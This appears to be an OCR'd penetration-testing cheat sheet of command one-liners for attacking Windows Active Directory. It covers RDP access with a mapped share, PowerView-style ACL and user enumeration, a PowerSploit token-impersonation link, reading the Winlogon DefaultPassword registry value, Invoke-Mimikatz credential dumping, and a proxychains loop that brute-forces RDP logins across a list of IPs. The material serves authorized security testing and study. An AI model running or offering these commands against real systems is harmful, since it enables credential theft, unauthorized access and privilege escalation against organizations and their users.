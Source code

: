 rdate -n \<dc-ip\> ***Sync localtime with DC***
  
xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share ***RDP***

$ErrorActionPreference= 'silentlycontinue' ***Hide Error in PowerShell***

Get-UserProperty -Properties logoncount | Where logoncount -ne 0 ***Filtering Powershell objects***

Get-ObjectAcl -SamAccountName Control174User –ResolveGUIDs | Where-Object {$_.IdentityReference -like "RDP*"} ***Filtering Powershell objects***

Token impersonation is now a part of Powersploit https://github.com/PowerShellMafia/PowerSploit/blob/c7985c9bc31e92bb6243c177d7d1d7e68b6f1816/Exfiltration/Invoke-TokenManipulation.ps1

Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "DefaultPassword" ***Creds***

Invoke-Mimikatz -DumpCreds/-DumpCerts

for i in `cat ips1.txt`;do proxychains xfreerdp /u:'<user>' /p:'<pass>' /v:$i +clipboard /dynamic-resolution /tls-seclevel:0 /timeout:80000;done ***RDP Brute***

For RBCD guide use WriteDACL in bloodhound 
